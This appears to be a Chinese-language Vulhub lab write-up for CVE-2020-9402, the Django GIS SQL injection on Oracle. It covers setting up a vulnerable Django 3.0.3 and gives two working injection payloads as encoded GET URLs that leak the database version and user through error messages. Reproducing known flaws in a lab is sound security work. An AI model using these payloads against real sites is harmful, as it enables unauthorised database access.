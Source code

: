 # Django GIS SQL注入漏洞 CVE-2020-9402

## 漏洞描述

Django在2020年3月4日发布了一个安全更新，修复了在GIS 查询功能中存在的SQL注入漏洞。

参考链接：

- https://www.djangoproject.com/weblog/2020/mar/04/security-releases/

该漏洞需要开发者使用了GIS中聚合查询的功能，用户在oracle的数据库且可控tolerance查询时的键名，在其位置注入SQL语句。

## 环境搭建

Vulhub执行如下命令编译及启动一个存在漏洞的Django 3.0.3：

```
docker-compose build
docker-compose up -d
```

环境启动后，访问`http://your-ip:8000`即可看到Django默认首页。

## 漏洞复现

### 漏洞一

首先访问`http://your-ip:8000/vuln/`。

在该网页中使用`get`方法构造`q`的参数，构造SQL注入的字符串`20) = 1 OR (select utl_inaddr.get_host_name((SELECT version FROM v$instance)) from dual) is null OR (1+1`

```
http://your-ip:8000/vuln/?q=20)%20%3D%201%20OR%20(select%20utl_inaddr.get_host_name((SELECT%20version%20FROM%20v%24instance))%20from%20dual)%20is%20null%20%20OR%20(1%2B1
```

可见，括号已注入成功，SQL语句查询报错：

![img](./images/1.png)

### 漏洞二

访问`http://your-ip:8000/vuln2/`。 在该网页中使用`get`方法构造`q`的参数，构造出SQL注入的字符串`0.05))) FROM "VULN_COLLECTION2" where (select utl_inaddr.get_host_name((SELECT user FROM DUAL)) from dual) is not null --`

```
http://your-ip:8000/vuln2/?q=0.05)))%20FROM%20%22VULN_COLLECTION2%22%20%20where%20%20(select%20utl_inaddr.get_host_name((SELECT%20user%20FROM%20DUAL))%20from%20dual)%20is%20not%20null%20%20--
```

![img](./images/2.png)
